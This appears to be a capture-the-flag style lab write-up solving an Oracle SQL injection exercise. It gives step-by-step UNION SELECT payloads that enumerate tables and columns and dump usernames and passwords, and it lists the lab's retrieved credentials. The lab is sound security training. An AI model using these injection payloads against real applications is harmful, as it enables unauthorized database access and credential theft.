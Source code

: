 ## Lab: SQL injection attack, listing the database contents on Oracle.

- This lab contains a SQL injection vulnerability in the product category filter.
- The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
- The application has a login function, and the database contains a table that holds usernames and passwords.
- You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

## To solve the lab, log in as the `administrator` user.

# Use Burp Suite to intercept and modify the request that sets the product category filter.

# Determine the number of columns that are being returned by the query and which columns contain text data.

# check columns
```
' UNION SELECT NULL,NULL--
```
- there are two columns.

# Verify that the query is returning two columns, both of which contain text
```
'+UNION+SELECT+'abc','def'+FROM+dual--
```
- Both contains text.

# Use the following payload to retrieve the list of tables in database
```
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```

# Find the name of the table containing user credentials.
- USERS_FSFUEO

# Use the following payload to retrieve the details of the columns in the table:
```
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_FSFUEO'--
```
- PASSWORD_AJEMRE
- USERNAME_LKFIAO
- EMAIL

# Use the following payload to retrieve the usernames and passwords for all users.
```
'+UNION+SELECT+USERNAME_LKFIAO,+PASSWORD_AJEMRE+FROM+USERS_FSFUEO--
```

# here we go all users id and password are displayed.
- administrator : g6iinaf4av1119x0mhav
- carlos : 2bxrjaoja7cb32nupsgw
- wiener : 3adtb8rxhjbdsmxkexeb

# login using credentials of administrator
- administrator : g6iinaf4av1119x0mhav


# Lab solved
Congratulations, you solved the lab! :)



